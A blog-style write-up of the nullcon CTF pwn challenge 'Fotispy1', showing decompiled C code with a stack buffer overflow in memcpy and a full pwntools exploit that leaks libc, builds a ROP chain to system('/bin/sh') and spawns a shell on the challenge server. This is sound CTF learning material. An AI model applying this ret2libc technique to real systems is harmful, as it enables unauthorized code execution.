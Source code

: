 ```yaml
---
date: 2025-09-02 17:03:00
layout: post
title: nullconctf write up
subtitle: trying Capture The Flag in the middle of the night
description: The challenge is fun :o
image: https://images.alphacoders.com/134/1343999.png
optimized_image: https://images.alphacoders.com/134/1343999.png
category: HALF-FINISHED
tags:
  - pwn
  - bof
  - foren
  - crypto
author: --
---
```


At night I was bored and tried CTF.

# Fotispy1
## Description
> Spotify with a GUI? A true hacker only needs the terminal.

## Initial Analysis
![Gambar 1]({{ site.baseurl }}/assets/img/uploads/nullconctf/1.png)
In this challenge, we can see that there is no canary and no pie, making it easier for us to exploit it.

## Code Analysis
### func to add song
```c
int sub_401690()
{
  __int64 v0; // rax
  _QWORD *v2; // [rsp+8h] [rbp-38h]
  _QWORD *v3; // [rsp+10h] [rbp-30h]
  int v4; // [rsp+1Ch] [rbp-24h]
  int v5; // [rsp+20h] [rbp-20h]
  int v6; // [rsp+24h] [rbp-1Ch]
  void *v7; // [rsp+28h] [rbp-18h]
  void *v8; // [rsp+30h] [rbp-10h]
  const char *v9; // [rsp+38h] [rbp-8h]

  if ( byte_404050 == -1 )
  {
    LODWORD(v0) = puts("[-] No user has logged in yet.");
  }
  else
  {
    v9 = (const char *)calloc(0x100uLL, 1uLL);
    v8 = calloc(0x100uLL, 1uLL);
    v7 = calloc(0x100uLL, 1uLL);
    printf("[DEBUG] %p\n", &printf);
    printf("[~] Please enter a song title: ");
    v6 = sub_401207(v9, 256LL);
    printf("[~] Please enter a who %s is from: ", v9);
    v5 = sub_401207(v7, 256LL);
    printf("[~] Please enter which album %s is on: ", v9);
    v4 = sub_401207(v8, 256LL);
    v3 = calloc(0x30uLL, 1uLL);
    v3[4] = v8;
    *((_DWORD *)v3 + 10) = v4;
    *v3 = v9;
    *((_DWORD *)v3 + 2) = v6;
    v3[2] = v7;
    *((_DWORD *)v3 + 6) = v5;
    v2 = calloc(0x10uLL, 1uLL);
    v2[1] = v3;
    *v2 = *(_QWORD *)(qword_4040A0[(unsigned __int8)byte_404050] + 16LL);
    v0 = qword_4040A0[(unsigned __int8)byte_404050];
    *(_QWORD *)(v0 + 16) = v2;
  }
  return v0;
}
```
### func to view song
```c
int sub_40185D()
{
  __int64 *v0; // rax
  char dest[13]; // [rsp+Bh] [rbp-15h] BYREF
  __int64 *v3; // [rsp+18h] [rbp-8h]

  if ( byte_404050 == -1 )
  {
    LODWORD(v0) = puts("[-] No user has logged in yet.");
  }
  else
  {
    v3 = *(__int64 **)(qword_4040A0[(unsigned __int8)byte_404050] + 16LL);
    memset(dest, 0, sizeof(dest));
    LODWORD(v0) = puts("[~] Your favorites:");
    while ( v3 )
    {
      memcpy(dest, *(const void **)v3[1], *(unsigned int *)(v3[1] + 8));
      printf("    - Song: %s", dest);
      memcpy(dest, *(const void **)(v3[1] + 16), *(unsigned int *)(v3[1] + 24));
      printf(" - %s", dest);
      memcpy(dest, *(const void **)(v3[1] + 32), *(unsigned int *)(v3[1] + 40));
      printf(" - %s\n", dest);
      v0 = (__int64 *)*v3;
      v3 = (__int64 *)*v3;
    }
  }
  return (int)v0;
}
```
in function add song we can add a buffer up to 256, and in function view song there's a memcpy
```c
memcpy(dest, *(const void **)v3[1], *(unsigned int *)(v3[1] + 8));
```
what does that mean ? var dest The dest variable is only 13 bytes in size, while memcpy can add more than 256 buffers, causing a buffer overflow.

## solve.py
```python
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF(args.EXE or 'fotispy1')
context.terminal = ['wt.exe','wsl.exe']
libc = ELF('./libc.so.6')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([elf.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOT:
        return remote('52.59.124.14', 5191)
    else:
        return process([elf.path] + argv, *a, **kw)

gdbscript = '''
b main
continue
'''.format(**locals())

def m(i): p.sendlineafter(b'[E]: ', str(i).encode())

p = start()

DEST_LEN = 13
OFF_V3   = 13      # [rbp-8]
OFF_RBP  = 21      # saved RBP
OFF_RIP  = 29      # saved RIP

QWORD_4040A0 = 0x4040A0
safe_v3 = p64(QWORD_4040A0 + 8*5)   # points to a zero qword; *v3==0 ends loop cleanly
print(hex(QWORD_4040A0 + 8*5))

# Register and login
m(0); p.sendlineafter(b'username: ', b'u'); p.sendlineafter(b'password: ', b'p')
m(1); p.sendlineafter(b'username: ', b'u'); p.sendlineafter(b'password: ', b'p')

# Add song (album overflows)
m(2)
p.recvuntil(b'[DEBUG] ')
leak = int(p.recvline().strip(), 16)
log.info(f'printf& leak: {hex(leak)}')
libc.address = leak - libc.sym.printf
log.info(f'libc leak: {hex(libc.address)}')

rop = ROP(libc)
rop.raw(rop.ret.address)
rop.system(next(libc.search(b'/bin/sh\00')))

pad_to_v3  = b'A'*OFF_V3
after_v3   = OFF_RBP - OFF_V3 - 8      # bytes between v3 (8 bytes) and saved RBP
after_rbp  = OFF_RIP - OFF_RBP - 8     # bytes between saved RBP (8 bytes) and saved RIP

payload = pad_to_v3
payload += safe_v3                     # overwrite v3 ([rbp-8])
payload += b'B'*after_v3
payload += b'C'*8                      # saved RBP (dummy)
payload += b'D'*after_rbp
# payload += p64(0x000000000040101a)
payload += rop.chain()

p.sendlineafter(b'title: ', b'a')
p.sendlineafter(b'is from: ', b'a')
p.sendlineafter(b'is on: ', payload)

# Trigger the overflow and return
m(3)
p.interactive()
```
and we got the flag
![Gambar 1]({{ site.baseurl }}/assets/img/uploads/nullconctf/2.png)

